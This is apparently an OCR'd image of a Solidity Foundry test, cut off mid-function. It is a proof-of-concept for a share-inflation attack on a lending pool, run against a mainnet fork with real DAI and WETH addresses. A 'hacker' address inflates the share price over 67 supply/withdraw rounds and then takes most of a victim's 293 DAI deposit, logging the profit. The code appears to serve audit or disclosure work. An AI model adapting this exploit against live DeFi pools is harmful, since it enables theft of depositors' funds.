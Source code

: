 ```solidity
    from 'contracts/settlement/LiquoriceSettlement.sol';

contract IntegrationSupplyLogic is Test {
  using Math for uint256;

  uint256 internal constant _FORK_BLOCK = 18_920_905;

  address internal constant DAI = 0x6B175474E89094C44Da98b954EedeAC495271d0F;
  address internal constant WETH = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;

  address internal user = makeAddr('user');
  address internal borrower = makeAddr('borrower');
  address internal owner = makeAddr('owner');
  address internal taker = makeAddr('taker');

  Repository private repository;
  LendingPool private lendingPool;
  InterestRateModel private interestRateModel;
  MockPriceProviderRepository private mockPriceProviderRepository;

  address internal hacker = makeAddr('hacker');
  address internal victim = makeAddr('victim');

  function test_inflation_attack() public {   
    setupPool();
    setupHacker();
    
    uint hackerBalanceBefore = IERC20(DAI).balanceOf(hacker);    

    inflateInitial();

    // now 1 wei collateralToken = 2 wei DAI

    for (uint i=0; i<67; i++) {
      inflate();
    }

    // now 1 wei collateralToken = 147 DAI

    uint victimDepositValue = 293 ether;
    victimDeposit(victimDepositValue);

    vm.prank(hacker);
    lendingPool.withdraw(DAI, type(uint).max, false);

    uint hackerBalanceAfter = IERC20(DAI).balanceOf(hacker);    
    int profit = int(hackerBalanceAfter) - int(hackerBalanceBefore);
    emit log_named_decimal_int("Hacker DAI profit", profit, 18);
    console2.log("Hacker profit / victim deposit =", 
                 uint(profit) * 100 / victimDepositValue, "%");
  }

  function inflate() public {
    ILendingPool.AssetState memory s;
    s = lendingPool.getAssetState(DAI);

    vm.startPrank(hacker);
    lendingPool.supply(DAI, 2 * s.totalDeposits - 1, false);
    lendingPool.withdraw(DAI, s.totalDeposits, false);
    vm.stopPrank();

    console2.log("inflate");
    s = lendingPool.getAssetState(DAI);
```